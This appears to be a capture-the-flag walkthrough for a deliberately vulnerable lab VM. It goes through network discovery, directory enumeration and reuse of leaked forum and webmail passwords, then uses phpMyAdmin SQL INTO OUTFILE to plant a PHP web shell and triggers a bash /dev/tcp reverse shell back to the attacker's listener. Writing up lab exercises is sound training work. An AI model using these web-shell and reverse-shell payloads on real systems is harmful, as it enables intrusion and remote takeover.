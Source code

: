 

 #  Reverse shell - Summary

## Network Discovery and Service Enumeration

The target VM operates in bridged network mode. Begin by identifying your local IP address:

```bash
ifconfig
```

To know the IP of the target host:

```bash
sudo netdiscover -r 192.168.56.0/24
```

## Identified target IP: 192.168.1.4

Open services:

- FTP (21)
- SSH (22)
- HTTP (80)
- HTTPS (443)
- IMAP (143)
- IMAPS (993)

## Web Server Analysis

### Initial Reconnaissance

Access the web server on port 80:

```bash
curl 192.168.1.4
```

The response contains a basic HTML page.

## Directory Enumeration

Use dirb to discover hidden paths over HTTPS:

```bash
dirb https://192.168.1.4 -r
```

Discovered endpoints:

- Forum: https://192.168.1.4/forum/
- phpMyAdmin: https://192.168.1.4/phpmyadmin/
- Webmail: https://192.168.1.4/webmail/

## Service Exploration

### 1-Forum Analysis

Review forum posts. A post by user `lmezard` contains SSH logs with an apparent password attempt:

Password: `!q\]Ej?*5K5cy*AJ`

Use these credentials to log into the forum (`user: lmezard`).

Discover the associated email: `laurie@borntosec.net`

### 2-Webmail Access

Log into webmail (Roundcube) using `laurie@borntosec.net` and the found password.

Retrieve database credentials from an email:

  - Username: `root`  
  - Password: `Fg-'kKXBj87E:aJ$`

### 3-phpMyAdmin Exploitation

Access phpMyAdmin with the obtained credentials.

Execute SQL injection to create a web shell:

```sql
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/forum/templates_c/shell.php"; 
```

## Server Compromise

### Reverse Shell Setup

Host a netcat listener locally:

```bash
nc -nvlp 4444
```

Trigger reverse shell via the web backdoor (URL-encoded Python reverse shell command):

```bash
https://192.168.1.4/forum/templates_c/shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/YOUR-IP/4444+0>%261'
```


### Getting a fully interactive shell

To fix the PTY:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
then press `ctrl+z`, and run:

```bash
stty raw -echo; fg;
```